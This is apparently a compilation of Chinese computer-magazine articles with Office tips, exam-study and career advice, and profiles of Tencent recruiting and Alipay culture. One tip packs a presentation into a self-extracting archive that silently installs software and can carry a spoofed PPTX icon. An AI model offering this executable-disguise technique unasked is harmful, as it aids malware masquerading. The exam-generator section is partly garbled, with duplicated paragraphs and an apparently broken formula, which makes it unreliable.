| 班级 | 1 2 3 4 5 6 | 1 2 3 4 5 6 | 1 2 3 4 5 6 | 1 2 3 4 5 6 | 1 2 3 4 5 6 |
| 第一节 | 语文 数学 英语 物理 历史 地理 | 数学 英语 语文 物理 历史 地理 | ... | ... | ... |
| 第二节 | 数学 英语 语文 物理 历史 地理 | 英语 语文 数学 物理 历史 地理 | ... | ... | ... |
| ... | ... | ... | ... | ... | ... |

#### 2. 打印各班课程表

第一步：画空白表。关掉 Excel，打开 Word，画一个标准班级课程的空白表，但年级与班不要填写，如图9。



第二步：邮件合并。首先，将光标移至“年级”前。单击工具栏上“邮件”，在出现“邮件合并工具栏”中，单击“选择收件人”→“使用现有列表”，在弹出的“选择表格”对话框中，选择“课程表源表$”，如图10。单击确定。然后，单击工具栏上的“插入合并域”，选择“nj”，在“班”字前面前面选择“bj”，依次操作，插入完成后会在对应框中出现带书名号的字母，表示在对应的表格中已经插好各节课的域了，如图11。


第三步：打印。单击工具栏上“完成并合并”，选择“打印文档”，在“合并到打印机”对话框中，默认是“全部”，就可以依次打印出六个班的各班课程表了。

(文/朱莉)

## 银行卡信息安全显示有办法

出于某种工作或业务的需要，有时，我们需要在表格中输入一些人的银行卡的账户名和号码。从安全角度考虑，在提供给用户共享的报表中，往往需要隐去银行卡号码中的某段数据，同时对号码段单元格作防修改保护处理。其实这样的需求不难实现。在 Excel 2003 中通过使用 CONCATENATE、REPT 和 RIGHT 几个函数构造公式，然后隐藏必要的列并保护工作表就能轻松搞定，其他高版本更不在话下。

一般来说，在提供大家共享的报表中，人们希望只显示信用卡号码的最后几位，而将其余的数位用星号或其他字符代替。如，信用卡号码为“1234-5678-8765-9876”实际显示为“****-****-****-9876”。下面我们就以这种模式为例来说明，表格制作可采取如下制作方法：

第一步：Excel 工作表的 A 栏和 B 栏内分别输入用户的银行卡实际户名和卡号。

第二步：单击 C2 单元格，输入公式 = CONCATENATE(REPT(“****”, 3), RIGHT(B2, 4))，之后该单元格马上显示出只有后四位数字的银行卡号。

第三步：拖动 C3 单元格右下角的黑色控制手柄并向下拖动，使 C 栏进行格式复制和数据自动填充。这样，所有加密后的信用卡号都显示在该列中了。

第四步：隐藏 B 列的信用卡真实号码。选中 B 列数据，单击右键并选择快捷菜单中的“隐藏”命令，实现该列数据的隐藏。

第五步：保护工作表。B 列数据隐藏后，为了防止别人通过取消隐藏来显示该列的信用卡号，我们可以通过对该工作表进行加密保护来实现对表格中列的取消隐藏操作。执行“工具→保护→工作表”系统命令，在弹出的“保护工作表”窗口中两次输入相同的保护密码，然后确定。

经过这样的操作后，当用户选中 AC 两栏并试图通过右键菜单取消隐藏时，会发现“取消隐藏”命令会变成灰色，不可选择，因而也就无法显示隐藏的信用卡号了。而管理者在使用这张表时，通过取消对工作表的保护，可以轻松显示出原始的信用卡号码列来。

公式说明：

= CONCATENATE(REPT(“****”, 3), RIGHT(B2, 4))

REPT(“****”, 3) 的作用是重复 “****” 文本字符串三次。

RIGHT(B2, 4) 函数的作用是从信用卡号的右侧截取 4 位数字。

CONCATENATE 函数的作用是将几个文本字符串合并为一个文本字符串。

整个嵌套函数可以理解为，重复 “****” 文本字符串三次，然后将结果与信用卡号码的最后四位合并为一个字符串显示。

(文/陈彦君)

## WinRAR 也能打包 PowerPoint 演示文稿

PowerPoint 97-2003 都可以打包演示文稿，但 PowerPoint 2010 打包出的演示包还要联网下载播放器，下载完还不能直接使用，这给使用者带来不便。但是我们可以借助于 WinRAR，用它的打包成自解压文件的功能来自己制作一个能够自动播放的演示包，这样获得演示包的人就不会再遇到上面这种麻烦了。

第一步：上网下载 PowerPoint Viewer 2010，在下载的压缩包上用右键选择“用 WinRAR 打开”，解压出所有文件到一个文件夹。

第二步：在这个文件夹中新建一个文本文档，在里面输入：

```
@echo off
msiexec /qn /i ppviewer.msi
<--你PPT的名字-->.pptx
msiexec /qn /x ppviewer.msi
```

第一句是让这个批处理文件关闭命令回显，第二句是安装 ppviewer.msi 不显示安装界面，第三句就是打开 PPT，第四句就是放映完毕后的卸载。

第三步：把刚才建的文档改名为 open.cmd（注意：cmd 是扩展名，如果改完后还是记事本图标，打开“工具→文件夹选项→查看”，去除“隐藏已知文件的扩展名”的勾选）。

第四步：把你的 PPT 复制到这个文件夹里。

第五步：选中这个文件夹的全部文件，右键选择“添加到压缩文件(A)...”（注意不是“添加到 XXXX.rar”！）。

第六步：在“压缩选项”中勾选“创建自解压格式压缩文件(X)”；再到“高级”标签页点击“自解压选项”，把“常规”选项卡的安装程序“解压后运行 (F)”填入 open.cmd；再到“模式”选项卡里的“临时模式”勾选“解包到临时文件夹”，在“安静模式”选择“全部隐藏”；到“更新”选项选择“覆盖所有文件”；然后在“文本和图标”选项卡下设定解压文件的图标，如果你还要把这个自解压文件的图标再换成 PPTX 的文件图标，可以用 eXeScope 提取，也可以到 http://goo.gl/HYVjT 去下载已经提取好的图标。

打包好后就可以使用这个程序放映幻灯片了。

(文/黄洋宇)

## 在校生3个月打赢考研时间战

2012年考研序幕早已拉开，考研热仍然持续高温。从某种意义上说，考研就是一场“时间战”。距离明年1月份的研究生考试还有3个月左右的时间，谁懂得抓紧时间，利用好时间，谁就是最后的胜利者！每年研究生考试结束之后，我们常常会听到这样的声音：“如果再给我三个月的时间，我一定能够考上研究生。”但是，时间一去不复返。在校生的学习时间看似很充裕，若不能做好规划，不能在最后的冲刺阶段有效地学习，很可能错失良机。

### 备战三个月 考上名校研究生

来源：考试中国

### 不要盲目比较学习方法

有些同学在复习时总担心自己比别人慢，每当听到别人比自己多看几遍书时，心里不自觉地就产生恐惧和焦虑，好像自己已经是失败者。还有的同学在遇到困难时，总认为别人比自己已强，不自觉中打击了自己的自信心，人为地制造了紧张情绪。其实每个人都有自己的学习方法，有的同学复习时讲速度，但只有复习多遍才能出效果；有的同学复习时讲效果，复习一遍用时较多但效果很好，所以学习方法是无优劣之分的。不同的方法都能达到良好的学习效果，完全没有必要因为别人比自己多复习几遍而焦急，只要你感觉方法适合自己，感觉到自己在进步，坚持到底就会成功。

以我来说，从准备考研到参加考试总共用了三个多月的时间，从准备时间上看已经比许多人都晚了好几个月，而且当时我英语还未过六级，政治书一点没看，专业课也是大一学完后放置了三年，可以说一切都是新的。我根据自己的情况，首先明确了自己各科的分配时间和阶段性复习计划，将别人十个月完成的三轮复习计划，压缩在三个月的时间内，循序渐进、踏实认真地复习，考试成绩最后证明了我的做法是明智的。

### 不要“开夜车”

我不倡导“开夜车”。虽然仅三个月的备考时间，但我并未选择“开夜车”。我认为要在备考的长期复习中保持旺盛的精力和体力，必须保证良好的睡眠。一般我晚上11点准时休息，早上6点左右起床，充分利用白天的时间进行学习，效率特别高，所以一直到考研结束也未体会到别人的焦虑、劳累、痛苦等感觉。

### 我是怎样安排每天的时间的

来源：海天考研

- **六点半起床** 每天早上我选择六点半起床，因为起得太早，会影响到宿舍其他人休息。起床的过程真的很锻炼人的意志：外面下着雪，吹着风，别人都在被窝中享受睡觉的幸福，我却必须从暖和的被窝中爬起。在别人看来，这可能是一件很痛苦的事，但我并不这么认为。我觉得，每天早上当我比别人早起的时候，我就离成功更近了一步，我很庆幸自己会比别人早起。

- **早餐前锻炼十几分钟** 晨炼让我比别人更有活力。每天早上，我会摸黑去没人的操场角落跳绳，为的是让自己身体健康，充满活力。我坚持下来了，半年时间把一根跳绳磨损了一半。这样的举动，让我在备考的半年中身体健康，每天充满活力。

- **坚持午休** 午休我从来没有间断过，这在研友看来很奢侈，但在我看来很有必要，因为午休能使学习有个中场休息，提高了我下午学习的效率。更重要的是，使我一天的复习有个新的开始——超越之前的开始。

- **晚上不贪黑 上午效率高** 不少考研族有开夜车的习惯，我每天晚上都是十点半回宿舍的，争取在十一点学校熄灯的时候上床休息，这样才能保证第二天的高效率。上午四个小时的学习时间在我看来很短暂。我会给自己安排合理的学习科目，过得很充实。

- **合理安排饮食** 在饮食方面，我坚持每天早上吃一个鸡蛋，一包鲜奶，中午一个苹果，晚上睡觉之前一杯牛奶。平时多注意饮食的合理安排，让考研生活过得有规律。

## 解读名企2012校园招聘

近来，2012年毕业的童鞋们发现，他们的工作机会提早来临了。刚刚进入9月，国内的IT企业就开始进驻高校争抢人才。从阿里巴巴、百度、金山软件，腾讯到网易、神州数码、美团等纷纷展开校园招聘宣讲。提前的校园招聘热潮对学生而言，无疑是利好消息，但如何把握住这利好却是个问题。从本期开始，本栏目将连载几家互联网巨头的校园招聘情况，带你解读招聘背后的细节。

### 腾讯招聘会 现场

“我不是计算机专业的，可以申请软件工程师吗？”、“我在北京，可以申请外地的职位吗”……在清华大学曹光彪体育馆的腾讯校园宣讲会现场，与会的学生竞相提出各自关心的问题。据悉，腾讯今年的校园招聘计划招2500名毕业生，比去年增加了700名，涵盖产品、营销、设计、职能等多领域，其中以技术类人才为主，而技术类人才中最需要的是软件和产品工程师。

### 招聘方

### 腾讯需要什么样的人才？

熊明华（腾讯联席首席技术官&高级执行副总裁）：我们最需要的人才是动手能力强的人。因为我们要真正做产品，要写代码，很多东西与理论学习不太一样。腾讯高级副总裁奚丹：毕业生需要具备4个重要素质，即基础素质好，要有兴趣和热情，有持续学习的能力，以及要成为一个纯粹的腾讯用户，因为你需要时刻了解用户关心的是什么。

### 什么样的简历会脱颖而出？

腾讯招聘总监助理陈双华：我们的理念是给尽可能多的人第一次的机会，所以几乎所有投简历的人都有一次机会，同学们会看到参加我们笔试的人数非常多。我们一般会在投简历的下一周安排笔试，因为我们不确定你的简历是否真实，而且也不能从简历就确定一个人。所以，简历不是最重要，关键是机会！

### 笔试题中考察什么？

腾讯人力资源总经理刘琳：在笔试里面，有很多在实际工作当中应用的场景，还有实践的题目。这主要考察平时是不是有足够的动手能力，和社会一些基本的常识，以及对所处的领域有没有更宏观的视野。所以说考察的不仅仅是专业知识，还有专业能力的体现。

### 技术人员考察什么？

腾讯招聘总监助理陈双华：就技术人员来说，要有一定专业基础，因为这是学习基础。上了那么多年的学，如果学习成绩很糟糕，一定存在一些问题。但是我们不会特别考察这个学生做了多少项目、经验多丰富，这不是我们对应届生的期望。最基础的东西，比如C++、数据库、数据结构与算法等都是本科所学的很简单的东西，但是基础一定要打得很好，这样的人我们会更欢迎一些。

## 不装字库 文档漂亮依旧

去年的毕业论文答辩会，给我的一位高年级毕业班老乡留下一点小小的遗憾。她本来是在自己电脑上设计得好好的一份文档，通过答辩会场的电脑送到荧幕上时却变了样，显示效果大打折扣。事后老乡告诉我，是因为她使用了两种自认为很美的特殊字体，而现场的电脑中正好没有这两种字体才造成了这种遗憾的结局。老乡让我一定吸取经验教训。那么，难道必须在目标电脑中也安装自己设计所用的那些特殊字体，才能正确显示不成？

就拿Word文档来说吧，其实这种情况常有发生。在日常交往中，我们常常会遇到甲公司传给乙公司的Word文档，文章在甲公司排版得好好的，但到了乙公司后，所有的美术字体都以宋体显示了。原因也是乙公司的电脑上没有安装文章中所需要的那些字体所致。

但不知大家想到过没有，不用安装字体也能让乙公司的电脑显示出美观的原样字体。Word自己就能实现，PPT也是如此。

要做到既不在另一台电脑上安装该字体，又要正确显示和打印出该文档，我们可以按如下步骤来做：

第一步：执行Word菜单命令“工具→选项”，打开“选项”对话框。

第二步：点击“保存”标签，选中“嵌入TrueType字体”前的复选框。

这样就可以把创建此文档所用的TrueType字体与文档保存在一起，当在另一台电脑上打开此文档时，仍可用这些字体来查看和打印文档。

小提示：

用这种方法嵌入的字体只能是TrueType字体；但这样保存下来的文档容量比较大，为了减小文档的体积，可同时选中“只嵌入所用字符”和“不嵌入常用系统字体”两选项；

另外特别需要注意的是，当在另一台电脑上打开该文档时，不能对嵌入的字体文本进行修改，否则会使嵌入的字体丢失。

(文/张楚华)

## 做“活”你的Word表格

常常可以见到有人在Word中直接绘制表格，但这样的表格功能很有限。因此为了更专业起见，有人采用先在Excel中做好表格，然后再复制到Word中的方法。但这样做的表格是一张“死”表，若日后遇到有表格修改的情况，还得返回头重来一次，比较麻烦。下面有两种办法可以做“活”你的表格，让表格更新变得比较快速省事。

### 一、超级链接法

如果你已经用Excel编辑好了表格，那么，不需要复制表格，照样也可以将表格插入到Word当中。而且，这种方法插入的表格具有动态更新功能。具体步骤如下：

第一步：打开Word文档，接着再通过Excel打开要插入的工作表。

第二步：切换到Excel，然后选择所需的工作表；按“Ctrl+C”组合键。

第三步：切换到Word文档，然后单击要插入表格的位置，执行“编辑→选择性粘贴”命令。

第四步：在“形式”列表中，选择“Microsoft Office Excel工作表对象”，单击“粘贴链接”，然后点击“确定”，插入链接对象。你可以看到，Word中插入的Excel超级链接表格，四周有8个黑色小方块的控制柄。你可以通过拖动这些控制柄实现表格大小的任意缩放，双击这个表格则可以跳转到Excel环境下对这张表格进行编辑。

此外，Excel表格中内容的变化也会及时地反映到Word中相应的表格内，这一切都是自动进行的，不需要人为干预。

### 二、直接内建法

如果你需要插入的Excel表格尚未编辑好，那么可以直接在Word文档内创建新工作表。具体操作如下：

第一步：将光标定点在Word文档中要创建工作表的位置。

第二步：在工具栏上点击“插入Microsoft Excel工作表”按钮，插入Excel电子表格。

第三步：这时，就将Excel工作表作为嵌入对象插入到Word文档中。接着，通过双击表格，你就可以在工作表中填入所需的信息了。以后更新表格信息，也是通过直接双击表格，就可以编辑其中的内容了。

> (文/张进波)

## 从今天起不做IT职场透明人

在职场打拼大家会不会有过这样的经历，自己明明比同事更努力，却总得不到主管的重视；辛辛苦苦熬夜写出的程序，领导看了只是一笔带过；在公司里明明自己很有资历，却不如新来的“吃香”？最关键的是经理总是不和自己谈加工资的事！如果以上这些不幸都曾部分或全部发生在你身上过，恭喜你，你已经是IT职场透明人团队中的一份子了。作为80、90后富有闯劲的我们，怎能安于现状？本来找份工作就不容易，再加上工资待遇老是落后，岂不是愧对大学的学习吗？如何摆脱这一困境，听我慢慢道来。

### 让领导知道你在干什么

有时候造成你成为公司透明人的原因，很可能是领导根本就不知道你在干什么，长久以来自然你是可有可无了。现在比较正规化的IT公司，都喜欢通过电子邮件的形式进行工作交流，那你不妨将与同事、客户交流的工作关键点以邮件抄送给你的主管，这样可以让他知道你在工作以及你工作的内容。

据我的经验，其实当领导的很喜欢知道手下员工的工作状态（注意邮件主题要能概括邮件内容，这样可以不占用领导太多的时间。如果你从事的是开发类的工作，可以将项目进展作为周报、月报定期抄送给你的主管。在碰到特别棘手的问题上，你甚至可以在邮件中向主管征询下解决方法）。

还有一种方法，就是向主管递交周报，虽然IT开发工作中项目经理总是会定期组织碰头会（如果在通信行业的公司这样的会基本都是一天一次），但是如果你能坚持不懈地将自己一周内的工作做一个小结并且交给自己的主管，相信你的主管很快会关注到你。

### 提升个人核心竞争力

在碰到问题时，我们总是将原因归咎于外因。其实我们成为透明人自身的因素可能占了八成，比如现在流行Andriod、IOS等手机系统架构，未来可能基于ARM处理器的手机成为市场主流，而你还停留在早期的编程思路的局限里，你说会有人将新项目的机会让给你吗？所以即使你自己觉得自己已经很优秀了，在同事圈里自己的资历最老，不妨向周围的人多学习学习，在一些非正式的场合问问自己的主管，想要在职业生涯上有所进步，还需要哪些方面的提升。自己也别懈怠，周末到图书馆、书店、论坛多去看看书，充充电。

最重要的一点是提升个人的核心竞争力。所谓核心竞争力，简单点说就是你能做的事其他人不会做，而且别人通过学习也很难学会。比如Andriod系统相对于IOS系统显得有些“臃肿”，而你通过简化系统服务、后台程序，可以开发一些执行效率更高的系统版本，最重要的是兼容性很高，当你在公司所做的事别人无法做，你想成为“透明人”都难。

### 职场规划有偏差、需要调整

不是“很努力，很敬业”的员工都能晋升，也不是有功之臣就可以连升三级。所以当你觉得自己被埋没时，可以自己先问问自己，在公司这么多年除了本职工作能力外，是否具备升为主管的条件？

你是否有分子精神？愿意帮助其他同事，愿意参与到公司的事务讨论，能从部门整体角度考虑问题，而不是只埋头做自己的一摊事，其他都不管，只顾自己的利益得失……而如果有，倒是可以考虑与经理谈谈，如果没有，我看还是认真调整一下自己的职业规划。

### 及时与领导沟通，表明自己的想法

说实话，只要员工不提，很少有领导会主动为员工加工资，因为他认为如果员工不提，大约就是已经对目前的状况很满意了。所以及时与领导沟通，表明自己的想法是职场打拼必备的本领。这里要注意沟通的方式，对于比较活泼、开朗的领导，可以在独处时用非正式的半开玩笑的方式比较好。对于思维细腻的领导，找个理由（买房子、结婚）直接向他提就可以了，但切记“我这么辛苦，工资太低了”不要说。

> (文/叶勇)

## 告诉你所不知道的支付宝文化

进入11月份，轰轰烈烈的校园招聘已进尾声，不管花落谁家，想必同学们通过应聘过程，已经对企业有了初步的了解。但一些企业内部的文化可能只有身在其中的人才能深入了解和体会。本期就让我们走进位于北京的支付宝，借此近距离感受一下阿里巴巴这家超大型互联网企业的文化。

不管是阿里巴巴的内部员工还是了解阿里巴巴的人，对阿里印象最深的莫过于企业文化，而文化也是阿里巴巴最特别的地方。一起来领略下吧！

### 价值观

走进公司的任何一个角落，都能让你为它的贴心设计和渗透着文化味的别具一格而驻足。支付宝的前台桌子设计成一个大大的算盘，旁边还有一个大鼎。大门两边是身着中国传统服装的有亲和力的卡通人物，做出欢迎的手势。公司整体装修以橙色为主，充满活力！

不仅在外部装修上，在阿里的管理上文化也是非常重要的一环。对员工的考核中价值观占到50%，业绩占50%。阿里巴巴也重视人力资源管理和员工关系维护，以2000人的支付宝为例，仅人力资源部就有六七十人，其中有不少从事员工关系管理的ER，这些ER活跃在各部门，与员工一起策划开展别具特色的团队文化建设。

公司的各个房间以北京为大家所熟悉的地点命名，如三里屯、复兴门、五道口……良好的氛围不再使你感觉你是在一家公司，就像一个大家庭。有会客室、休闲区、儿童房，大的健身区，还有可以玩Xbox的超大娱乐室，员工以80后的年轻人居多，所以大家在很多地方是很有共同语言的。对于应届生来讲也能很快融入团队。据老员工David透露，勾心斗角、办公室政治在这里几乎可以忽略。

### 家的感觉

### 考勤制度

阿里早上9点上班下午6点下班，公司免费提供午餐和晚餐。上下班实行刷卡制，不过很多部门都不会把这个作为员工的考核的硬性依据。对于迟到的员工也不会罚钱，那么经常迟到怎么办？在支付宝你所需要做的只是，面向大家，大声地喊：“大家好！我爱你们！”阿里还有更狠的规定：迟到者需要在全体培训学员前跳钢管舞，是不是很尴尬？只要经历一次，就没人敢再迟到了。

真是不计成本，以阿里新员工为例，刚进公司要参加为期2周的培训，除了新员工培训外还有许多其他培训，比如“应届生培训”、“科学养宠”、“管理培训”等，每周一晚还有技术培训，员工可以根据自己的需要选择。

### Fun文化

在阿里巴巴有句口号是“workwithfun”，“fun文化”有时又称为“骚文化”。每年的年终员工大会都要评选4大名骚和四大闷骚（连马云等人也不放过）。此外在淘宝有“倒立文化”，据说每个在淘宝工作的人都要学会倒立；有的部门还有“裸奔文化”，就是当全部门的员工努力达到目标时，该部门的主管要脱得只剩内衣在公司各楼之间“裸奔”。

### 新人必备

支付宝有一个特别有意思的企业文化是，每个人在进入公司的时候会拥有一个独一无二的花名，平时同事之间直接叫花名，包括上下级之间。所以，新人们要动动脑子为自己想一个好的花名哦~~

新人秀是每个新人必须准备的，脱衣秀，钢管舞——作为新人这些也都是要挑战的。此外，杀人游戏、三国杀等是支付宝人的共同爱好。

## Excel+Word轻松自制随机出卷系统

先把收集到的大量考题集中保存到题库中，再随机从中抽取指定数量的题目制作考卷，这种随机抽题出卷的方式相信大多数教师朋友都知道吧。不过你有没有想过可以自己设计一个随机出卷系统呢？这其实很容易实现，我们只要用Excel2010函数配合Word2010的邮件合并就可以轻轻松松地按自己的要求定制出卷系统。设计好后你只要输入足够的题目，按两下鼠标就可以随机自动生成试卷了，是可以直接打印出来使用的试卷哦。

### 一、用 Excel2010 实现随机抽题

在Excel中实现随机抽题的原理其实很简单，我们先对所属单元格在考试范围内的题目都用RAND产生一个随机数，再按随机数对题目排名次。这样前N名的题目自然是随机的，然后再用VLOOKUP按名次值把前1-N名的题目顺次提取出来，不就等于是随机抽取N题了吗？而我们每刷新一次随机数都会随机变化，也就可以得到不同的随机试卷题目。

#### 1. 建立题库

打开Excel2010，新建“出卷”、“填空题”两个工作表。在“填空题”工作表的A1单元格输入0，在B1:H1输入随机数、“一、填空题”、“一、填空题（答案）”、所属单元等标题（图1）。在B2单元格输入公式=IF(AND(E2>=出卷!B$7,E2<=出卷!D$7),RAND(),"")，公式中的B$7、D$7是“出卷”工作表中显示出题范围的单元格。在A2=RANK(B2,B:B)+COUNTIF(B$2:B2,B2)-1，RANK用于根据随机数返回该题的名次，后面加上COUNTIF(B$2:B2,B2)则是确保万一随机数相同时也会递增排名，从而使名次数值连续不中断。选中A2:B2单元格，拖动其填充柄向下复制填充到5000行，具体行数请按实际会保存的最大题数考虑。最后在C:E列逐一输入题目、答案、所在单元即可，在此我们就先随便输入几道题用作实验吧。

=IF(AND(E2>=出卷!B$7,E2<=出卷!D$7),RAND(),"")

=RANK(B2,B:B)+COUNTIF(B$2:B2,B2)-1

右击“填空题”工作表的标签选择“移动或复制”，选中“建立副本”确定进行复制。右击复制出的“填空题(2)”工作表标签选择“重命名”把它改成“选择题”，并把“选择题”工作表中C1的题目改成“二、选择题”，D1改成“二、选择题（答案）”，这样选择题库就做好了。同样建立出问答题题库。

#### 2. 主界面设置

切换到“出卷”工作表，按需要设计好出卷界面，在E2单元格输入公式=C2*D2，并把公式复制到E3、E4，在C5输入公式=SUM(C2:C4)并向右复制到E5以计算出题数、总分。在A2输入2，在A3输入公式=A2+C2+1并向下复制填充到A4:A5单元格，以计算出各种题型大标题所在的行数。

=C2*D2

=SUM(C2:C4)

=A2+C2+1

在F2单元格输入公式=IF(ROW()>A$5,0,COUNTIF(G$1:G2,G2)-1)以自动显示题号。G2输入公式=VLOOKUP(ROW(),A:B,2,TRUE)以显示对应的题型。H2输入公式=IF(F2=0,"",F2&".")&IFERROR(VLOOKUP(P(F2,INDIRECT(G2&"!A:D")),3,FALSE),"")按题号从题库的A列中找到符合的随机名次并返回在第3列的题目。I2也输入与H2相同的公式只是要把公式中的3改成4以返回题库第4列的答案。最后选中F2:I2单元格拖动其填充柄把公式向下复制到150行即可（图2）。复制行数请按试卷最大题数考虑，一般应该不需要超过150题啦。最后把工作簿命名保存为“出卷系统.xlsx”。

=IF(ROW()>A$5,0,COUNTIF(G$1:G2,G2)-1)

=VLOOKUP(ROW(),A:B,2,TRUE)

=IF(F2=0,"",F2&".")&IFERROR(VLOOKUP(P(F2,INDIRECT(G2&"!A:D")),3,FALSE),"")

注：试卷各大标题中往往还需要注明题数、分值、总计分等，这可用公式从出卷工作表中引用。比如，在填空题工作表的C1单元格输入公式=“一、填空题（共”&出卷!C2&“题每题”&出卷!D2&“分，总计”&出卷!E2&“分）”，即可在C1自动显示成“一、填空题（共4题每题5分，总计20分）”这样的题目了。

### 二、用 Word 设计试卷

接下来要做的就是把提取出来的题目排版生成一张可以直接打印出来使用的试卷，这个可以通过Word的邮件合并功能自动完成。










=RANK(B2,B:B)+COUNTIF(B$2:B8,B8)-1

| A | B | C | D | E |
|---|---|---|---|---|
| 随机数 | 二、选择题 | 二、选择题（答案） | 所属单元 |  |
| 0.371929 | 孟浩然是盛唐___诗派的主要作家之一。( ) A. 无为 B. 壮志豪放 C. 安详 D. 山水田园 | D | 2 |  |
| #VALUE! | A. B. C. D. |  |  |  |
| #VALUE! | A. B. C. D. |  |  |  |
| #VALUE! | A. B. C. D. |  |  |  |
| #VALUE! | A. B. C. D. |  |  |  |

| A | B | C | D | E |
|---|---|---|---|---|
| 随机数 | 三、问答题 | 三、问答题（答案） | 所属单元 |  |
| 0.15647 | 李白的一生都是在失意中度过?请简要分析其失意的原因和当时社会的关系。 | 未录入, 略 | 1 |  |
| #VALUE! |  | 未录入, 略 |  |  |
| 0.54402 | 唐朝最伟在的文字成就是什么, 为什么? | 未录入, 略 | 1 |  |
| 0.81953 | 数据分析的目的是什么? 数据分析应提供哪些信息? 请结合本人实际进行简要描述。 | 未录入, 略 | 1 |  |
| 0.6184 | 什么是特殊过程? 举例说明各种不同的特殊过程要点 | 未录入, 略 |  |  |

- (1) 填空题中留待填写的空行区域要通过插入中文下划线实现，不能插入空格再设置下划线格式，否则在Word中生成试卷后你还得再逐一设置下划线。在中文输入法界面上右击那个键盘图标，选择“特殊符号”以显示软键盘(图5)，单击软键盘N键或直接按键盘N键即可插入中文下划线“_”，按Esc关闭软键盘。

- (2) 选择题中你需要按Alt+回车键换行，再插入空格调整各选项位置。建议先在B2单元格中输入一个空行以及A、B、C、D选项并用空格定位好，拖动填充柄把这个单元格复制到下面各单元格中，再逐一输入题目和选项内容(图6)，这样会比较方便输入。只要不输入所属单元那些空行就不会参与选题出卷。此外，最好先适当调整C列列宽让每行显示的字数正好与Word试卷中的单行字数一致，以便准确调整选项位置。

- (3) 问答题下留待填写的空行，同样可以按Alt+回车键在单元格中换行增加。但要注意的是每一个空行中至少要输入一个空格(图7)，否则在Word中会只剩下一个空行。建议先在B2单元格中输入一些含空格的空行，再把B2向下复制到各单元格中，然后再逐一输入题目。当然你也可以只输入题目，等最终生成试卷后再在试卷中题目下添加空行，这个就看个人习惯了。

增加题目可以在题库后追加输入，或选中已有题目行进行复制，右击选择“插入复制行”后再修改成新题目。删除题目可直接删除行。不过对于只是暂时不用的题目可以不必整行删除，你只要把该题“所属单元”的数字删除就可以让它不参与出题，下次需要时再重新输入“所属单元”数字即可恢复。

#### 2.随机抽题出卷

随机出卷操作比较简单，先打开“出卷系统.xlsx”的“出卷”工作表，输入各种题目的题数、分数、考试范围，即可自动生成一组试题。如果不满意你可以随时按F9刷新以得到不同的随机试题，然后保存文档退出Excel2010。打开“试卷.docx”文档，当提示是否将数据放入文档时，单击“是”，打开文档就可以直接看到试卷了。如果不需要保存，你可以直接修改打印出来。若需要保存则需要单击“邮件”选项卡中的“完成并合并”选择“编辑单个文档”，在弹出窗口中单击“确定”，就会新建一个文档保存当前试卷。你可以在这个新建试卷中设置格式、增加空行、插入附图等，然后再命名保存或打印。

#### 3.增加题型

本例中我们只设置了三种题型，当然实际中往往不止这三种，所以最后有必要介绍一下如何快速增加题型。这其实也很简单。用Excel2010打开“出卷系统.xlsx”，先按“一、1”中的介绍直接复制选择题工作表进行修改，作出新题型的题库工作表。再切换到出卷工作表，选中A4:E4单元格右击选择“插入”，在弹出窗口中选择“活动单元格下移”，再把A3和E3公式分别向下复制到A4、A5和E4、E5单元格，然后输入新题型名和题数、分值即可。其他公式包括“试卷.docx”和“答案.docx”都无需再做任何修改，即可按最新题型随机出卷。

### 三、随机出卷系统的维护与使用

OK, 到此我们的随机出卷系统设计已经大功告成了，这设置还是蛮简单的吧。接下来，你只要把题目逐一录入题库中就可以随机抽题出卷了。

#### 1.题目录入

题目录入比较简单，打开“出卷系统.xlsx”，直接在填空题、选择题、问答题题库工作表的C、E列输入即可。不过考虑到最终生成试卷的效果，在题目输入时有一些要求需要注意一下：

- (1) 填空题中留待填写的空行区域要通过插入中文下划线实现，不能插入空格再设置下划线格式，否则在Word中生成试卷后你还得再逐一设置下划线。在中文输入法界面上右击那个键盘图标，选择“特殊符号”以显示软键盘(图5)，单击软键盘N键或直接按键盘N键即可插入中文下划线“_”，按Esc关闭软键盘。

- (2) 选择题中你需要按Alt+回车键换行，再插入空格调整各选项位置。建议先在B2单元格中输入一个空行以及A、B、C、D选项并用空格定位好，拖动填充柄把这个单元格复制到下面各单元格中，再逐一输入题目和选项内容(图6)，这样会比较方便输入。只要不输入所属单元那些空行就不会参与选题出卷。此外，最好先适当调整C列列宽让每行显示的字数正好与Word试卷中的单行字数一致，以便准确调整选项位置。

- (3) 问答题下留待填写的空行，同样可以按Alt+回车键在单元格中换行增加。但要注意的是每一个空行中至少要输入一个空格(图7)，否则在Word中会只剩下一个空行。建议先在B2单元格中输入一些含空格的空行，再把B2向下复制到各单元格中，然后再逐一输入题目。当然你也可以只输入题目，等最终生成试卷后再在试卷中题目下添加空行，这个就看个人习惯了。

## 成批衣服尺码 瞬间自动填写

近期学校决定给每一位男教师定做一套西装，全校130多位男教师，如果手工对照身高范围和尺码表来确定教师服装的尺码，不仅费时费力，还容易出错，这可忙坏了总务处的梅主任，这不，被尊称为“Excel高手”的我被梅主任请到了办公室，商讨如何高效解决这一“难题”。其实，运用Excel2010的函数与公式，在有教师身高数据的前提下，不到1分钟就可搞定。这里以15位教师的数据来说明，如下图所示。
E1：F7单元格区域为尺码对照表，H1：J7单元格区域为辅助区域。

### 一、IF法

选择C2：C16单元格区域，输入下列公式，按Ctrl+Enter组合键结束，或者在单元格C2中输入公式，按下Enter后，公式将返回第一位教师的尺码，将C2单元格公式向下填充到C16单元格，即可得到所有尺码数据。在以下的公式中均省略这一步骤。
=IF(B2>185,"XXXL",IF(B2>180,"XXL",IF(B2>175,"XL",IF(B2>170,"L",IF(B2>165,"M","S")))))
使用IF函数多层嵌套执行判断，应避免逻辑关系重复、遗漏、冗余。
如果对IF函数多层嵌套理解有困难，通过&或+连接判断条件更容易理解。
=IF(B2<=165,"S","")&IF(AND(B2>165,B2<=170),"M","")&IF(AND(B2>170,B2<=175),"L","")&IF(AND(B2>175,B2<=180),"XL","")&IF(AND(B2>180,B2<=185),"XXL","")&IF(AND(B2>185,B2<=190),"XXXL","")
此公式看上去复杂，但是道理很简单，把6个条件判断分成6个独立的部分，这6个区间没有重复，所以只能有一个IF语句是成立的。
如果返回的是数值型内容，要把""改为0，把&改成+即可。

### 二、LOOKUP法

利用lookup函数进行多个连续区间判断的方法，可以替代IF函数的复杂多层嵌套。
=LOOKUP(B2,{0;165;170;175;180;185}+0.1,{"S";"M";"L";"XL";"XXL";"XXXL"})
由于此例判断的数据区间为向上包含，将第2个参数加上一个不影响B列数值最小当量的值，B列均为整数，则0.1不会影响其大小。
或者=LOOKUP(B2-0.1,{0;165;170;175;180;185},{"S";"M";"L";"XL";"XXL";"XXXL"})
Tips:
